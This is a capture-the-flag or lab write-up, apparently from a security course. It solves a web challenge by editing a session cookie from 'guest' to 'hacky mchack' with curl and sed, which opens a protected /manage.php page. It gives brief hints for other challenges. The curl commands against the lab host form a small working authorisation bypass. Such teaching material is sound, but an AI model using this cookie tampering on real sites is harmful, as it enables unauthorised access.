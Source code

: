 ### Chad v1: From the CLI

We use our good friend `curl`.
First, we save the cookies from the initial page into a cookie jar.
```
root@kali:~# curl -c cookies.txt http://141.85.224.70:8010
[...]

root@kali:~# cat cookies.txt
# Netscape HTTP Cookie File
# https://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

http://141.85.224.70:8010	FALSE	/	FALSE	1656864260	u	guest
```

Now we edit the file and replace `guest` with `hacky mchack` and send a `GET` request to `/manage.php`.
```
root@kali:~# sed -i s/guest/hacky\ mchack/ cookies.txt

root@kali:~# curl -b cookies.txt $URL/manage.php
```

If we didn't want to use the cookie jar, we could have simply looked at the headers sent by the server then sent the cookie "manually":
```
root@kali:~# curl -v $URL > /dev/null  # we don't care about the output
[...]
< HTTP/1.1 200 OK
< Date: Sun, 03 Jul 2022 16:10:51 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.2.34
< Set-Cookie: u=guest; expires=Sun, 03-Jul-2022 16:11:51 GMT; Max-Age=60

root@kali:~# curl -b 'u=hacky mchack' $URL/manage.php  # Notice the Set-Cookie field above
<here we get the flag>
```

### Chad v2: From Python

Simply create a `Session` object, set the cookie `u` to `hacky mchack`, then send a `GET` request to the `/manage.php` endpoint.

### Challenge: Beep Beep Boop

Look for hidden files on the web server.

### Challenge: Colours

Indices go brrrrrrr.

### Challenge: Great Names
